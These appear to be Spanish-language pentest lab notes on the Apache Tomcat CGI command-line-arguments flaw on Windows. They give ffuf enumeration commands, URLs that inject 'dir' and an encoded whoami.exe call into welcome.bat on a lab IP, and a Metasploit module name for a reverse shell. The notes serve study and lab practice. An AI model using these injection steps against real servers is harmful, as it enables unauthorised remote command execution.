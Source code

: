 - Posee una vulnerabilidad en los sistemas Windows que tengan el parametro "enableCmdLineArguments" activado.
- Las versiones afectadas son:
      - 9.0.0.M1 a 9.0.17
      - 8.5.0 a 8.5.39
      - 7.0.0 a 7.0.93


### Enum
##### Buscar cmds:
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
##### Bucar bachs:

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

### EXPLOITATION
##### Agregamos como parámetro el comando que queremos correr:
    http://10.129.204.227:8080/cgi/welcome.bat?&dir


si el comando es complicado, deberemos encodear en URL.
##### Ej:
para whoami:

            http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
Encodeado:

            http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
            

#### Con metasploit:
Muy seguido nos encontramos que es difícil explotar estas apps puesto que el proceso es engorroso, metasploit tiene un módulo capaz de permitirnos una reverseshell

            use exploit/windows/http/tomcat_cgi_cmdlineargs
